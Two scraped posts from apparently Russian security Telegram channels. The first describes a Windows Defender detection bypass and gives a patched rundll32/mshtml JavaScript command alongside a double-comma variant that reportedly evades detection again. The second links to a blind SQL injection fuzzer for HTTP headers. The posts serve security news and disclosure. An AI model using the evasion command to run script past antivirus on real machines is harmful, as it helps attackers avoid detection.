 
# proxy_bar
`2024-02-12`

<blockquote>
Windows Defender Detection Mitigation Bypass Vulnerability
Win LPE
В 2022 году hyp3rlinx рассказывал как можно обойти windows defender передав дополнительный путь при ссылке на mshtml, дырку пофиксили. НО, добавив пару запятых в старый трюк - и опять bypass. 
*
то есть было и пофиксили:
C:\sec&gt;rundll32.exe javascript:&quot;\..\..\mshtml,RunHTMLApplication &quot;;alert(666)
магия запятой:
C:\sec&gt;rundll32.exe javascript:&quot;\..\..\mshtml,,RunHTMLApplication &quot;;alert(666)
собака старая, трюки новые.
CVE пока не имеет )

&#35;defender &#35;bypass
</blockquote>

![pic](pictures/c0b140171ab338834a7a345c0e0429559f6193f70a32947ed95cc615e7d72981.jpg)

---

# defcon_news
`2024-02-10`

<blockquote>
SqliSniper - Advanced Time-based Blind SQL Injection Fuzzer For HTTP Headers
http://www.kitploit.com/2024/02/sqlisniper-advanced-time-based-blind.html
</blockquote>

<table><tr><td><b>→</b><a href="https://www.kitploit.com/2024/02/sqlisniper-advanced-time-based-blind.html">
https://www.kitploit.com/2024/02/sqlisniper-advanced-time-based-blind.html
</a>
</td></tr></table>

---